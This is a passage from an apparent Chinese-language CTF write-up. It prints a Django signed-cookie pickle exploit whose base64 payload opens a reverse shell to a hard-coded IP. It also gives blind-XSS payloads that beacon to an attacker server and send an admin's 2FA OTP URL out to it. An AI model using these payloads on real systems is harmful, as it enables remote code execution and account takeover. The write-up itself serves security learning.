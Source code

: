 exp

```python
import django.core.signing
from pyspark.serializers import PickleSerializer
import builtins

os.environ.setdefault("DJANGO_SETTINGS_MODULE", "config.settings.production")
SECRET_KEY = "77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!" # from .env
payload = 'getattr(__import__("os"), "system")("echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMS4xMTYuMTEwLjYxIiwzMDAwKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiL2Jpbi9zaCIpJwo= | base64 -d | sh")' # change this


class PickleRce(object):
    def __reduce__(self):
        return (builtins.eval, (payload,))


cookie = PickleRce()
signed_cookie = django.core.signing.dumps(cookie, key=SECRET_KEY, serializer=PickleSerializer,
                                          salt='django.contrib.sessions.backends.signed_cookies', compress=True)
print(signed_cookie)
```

环境问题没能成功

# Two For One

- Blind Xss
- Xss盲打

虚空复现一下，注册用户后需要Google Authenticator来扫一下QR，好吧，还得费劲下载，摆了

![image-20220502220439862](https://picgo-1305609125.cos.ap-nanjing.myqcloud.com/nahamconCTF%2Fimage-20220502220439862.png)

题目要求是以管理员用户登录，在 "Feedback" 页面直接插入xss

```
<img src="https://<myserver>/?hello-from-img-tag">
```

收到请求

```
"GET /?hello-from-img-tag HTTP/1.1" 200 0 "http://localhost:5000/feedback/1" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/81.0.4044.113 Safari/537.36"
```

然后去获取了管理员的OTP

```
<script>
setTimeout(reset2fa, 5000);

function reset2fa() {
    fetch("/reset2fa", {
        method: "POST",
        headers: {
            'Accept': 'application/json',
            'Content-Type': 'application/json'
        }
    }).then(res => {
        res.json().then((json) => {
            var i = new Image(1, 1);
            i.src = "https://<myserver>/?otp=" + btoa(json.url);
```